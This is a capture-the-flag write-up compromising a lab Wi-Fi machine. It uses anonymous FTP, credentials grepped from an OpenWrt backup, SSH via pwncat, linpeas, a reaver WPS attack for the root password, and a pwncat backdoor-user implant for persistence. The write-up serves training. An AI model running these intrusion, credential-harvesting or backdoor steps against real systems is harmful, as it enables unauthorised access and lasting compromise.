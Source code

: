 we start the machine with classic rustscan scan:
	
	rustscan -a 10.10.11.247
output:
	
	PORT   STATE SERVICE    VERSION
	21/tcp open  ftp        vsftpd (broken: cannot locate user specified in 'ftp_username':ftp)
	22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
	|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
	|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
	53/tcp open  tcpwrapped
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
we have a machine that has no web server open but instead we have a port 21 ftp classic 22 SSH for
the machine control and a weird port 53 that is a typical DNS port.
I started the enumeration from the first open port, the 21 ftp:
	
	ftp 10.10.11.247
we get prompted with the username,
i tried to press enter for public share but i got wrong password.
So i tried with the anonymous login and worked:
	
	ftp anonymous@10.10.11.247
inside we found all of this:
	
![ftp listing](./ftp.png)
	
so i donwloaded everything and analyzed the data locally:
	
	ftp> mget *
now that i have all the files on my local machine i can filter for credentials keywords.
in particular that's this file backup that maybe contains credentials or code that we can analyze:
	
	-rw-r--r-- 1 kali kali 40960 11 set 17.25 backup-OpenWrt-2023-07-26.tar
i extracted the files inside:
	
	tar -xf backup-OpenWrt-2023-07-26.tar
and inside we have a /etc folder, maybe a config folder.
By the way the rest of the files are useless because they doesn't contain interesting stuff.
the etc folder that we extracted contains this:
	
![etc folder](./etc.png)
	
instead of opening all the files i tried to cat everything and grep for credentials keywords like
pass, key, cred:
	
	grep -r 'key' ./ 
	./opkg/keys/4d017e6f1ed5d616:untrusted comment: Public usign key for 22.03 release builds
	./config/uhttpd:        option key '/etc/uhttpd.key'
	./config/uhttpd:        option key_type 'ec'
	./config/wireless:      option key '[REDACTED]'
	./config/wireless:      option key '[REDACTED]'
we now have a password but we need an username to login  with ssh so i opned the same file with the password
and searched for usernames:
	
	cat ./config/wireless
but didn't find nothing there.
But running ls on the etc folder and thinking about it i have a passwd file where i have an username:
	
	cat ./etc/passwd
output:
	
	root:x:0:0:root:/root:/bin/ash
	daemon:*:1:1:daemon:/var:/bin/false
	ftp:*:55:55:ftp:/home/ftp:/bin/false
	network:*:101:101:network:/var:/bin/false
	nobody:*:65534:65534:nobody:/var:/bin/false
	ntp:x:123:123:ntp:/var/run/ntp:/bin/false
	dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
	logd:x:514:514:logd:/var/run/logd:/bin/false
	ubus:x:81:81:ubus:/var/run/ubus:/bin/false
	netadmin:x:999:999::/home/netadmin:/bin/false
the only real username seems to be netadmin so i tried ssh login with the password found above(i used
pwncat for the connection):
	
	python3 -m pwncat
inside the pwncat shell:
	
	connect ssh://netadmin:[REDACTED]@10.10.11.247
the creds we found are right so we can submit the user flag and enumerate.
At this point is clear that the machine is some sort of WiFi connection or acces point.
by running:
	
	ip a
output:
	
![ip a command](./interfaces.png)
	
we can see that the interface mon0 is in monitor mode
so maybe we can intercept some wpa code or password.

Inside the machine there are various network interfaces so 
i tried to test a theory:
i used the interface that is in monitor mode to catch the 
access point wpa OpenWrt on interface wlan1:
	
![wifi interfaces](./wifi.png)
	
but i didn't know how to do that, so i continued with basic enumeration
by uploading linpeas on the machine with pwncat functionality:
	
	Ctrl + d
	upload Pentest/linpeas.sh /tmp/linpeas.sh
	Ctrl + d
	bash /tmp/linpeas
in particular this line seamed odd:
	
![strange binary](./reaver.png)
	
when i run the binary i got this output:
	
	Reaver v1.6.5 WiFi Protected Setup Attack Tool
	Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
It is a wifi attack tool... perfect for us, we just need to supply and interface and a mac adress of the acces point,
we have all we need (from the iwconfig command above):
	
	/usr/bin/reaver -i mon0 -b 02:00:00:00:00:00 -vv
output:
	
![wpa password](./wpa_redacted.png)
	
so with this password we can try and login as root:
	
	python3 -m pwncat
	connect ssh://root:[REDACTED]@10.10.11.247
the credentials we found are right so we can submit the root flag and proceed with the post explotation with 
persistence implants(for test sake i will use pwnact):
	
	(inside pwncat interactive shell)	
	run implant.passwd backdoor_user=disturbante backdoor_pass=disturbante
we can log whenever we want with disturbante user and disturbante password as root!
	
![implant module login with new user](./implant.png)
	